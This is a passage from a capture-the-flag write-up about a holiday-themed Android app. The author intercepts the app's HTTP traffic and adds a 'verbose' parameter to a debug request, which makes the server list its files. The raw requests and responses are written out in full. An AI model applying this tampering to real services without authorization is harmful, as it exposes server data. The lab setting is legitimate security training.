 Next, we set up an intercepting proxy on the Android phone and see what requests are actually sent when Edit Profile screen is selected in the app.

Here's is one captured example:

```
POST /index.php HTTP/1.1
Content-Type: application/json
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; GT-I9505 Build/KOT49H)
Host: dev.northpolewonderland.com
Connection: Keep-Alive
Content-Length: 144

{"date":"20161231033814-0500","freemem":158126120,"debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","udid":"5b23d1248ad99dd"}

HTTP/1.1 200 OK
Transfer-Encoding: chunked
Connection: keep-alive
Content-Type: application/json
Date: Sat, 31 Dec 2016 08:38:16 GMT
Server: nginx/1.6.2

{"date":"20161231083816","status":"OK","filename":"debug-20161231083816-0.txt",
"request":{"date":"20161231033814-0500","freemem":158126120,
"debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","udid":"5b23d1248ad99dd",
"verbose":false}}
```

Notice that there is a new parameter returned in the sample above - ```"verbose":false```. Let's modify the request, adding ```"verbose":true``` and re-send it:
 
```
POST /index.php HTTP/1.1
Content-Type: application/json
User-Agent: Dalvik/1.6.0 (Linux; U; Android 4.4.2; GT-I9505 Build/KOT49H)
Host: dev.northpolewonderland.com
Connection: Keep-Alive
Content-Length: 144

{"date":"20161231033814-0500","freemem":158126120,"debug":"com.northpolewonderland.santagram.EditProfile, EditProfile",
"udid":"5b23d1248ad99dd","verbose":true}

HTTP/1.1 200 OK
Transfer-Encoding: chunked
Connection: keep-alive
Content-Type: application/json
Date: Sat, 31 Dec 2016 08:41:47 GMT
Server: nginx/1.6.2

{"date":"20161231084147","date.len":14,"status":"OK","status.len":"2","filename":"debug-20161231084147-0.txt",
"filename.len":26,"request":{"date":"20161231033814-0500","freemem":158126120,"debug":"com.northpolewonderland.santagram.EditProfile, EditProfile",
"udid":"5b23d1248ad99dd","verbose":true},"files":["debug-20161224235959-0.mp3","debug-20161231082054-0.txt",
"debug-20161231083816-0.txt","debug-20161231083918-0.txt","debug-20161231084147-0.txt","index.php"]}
```
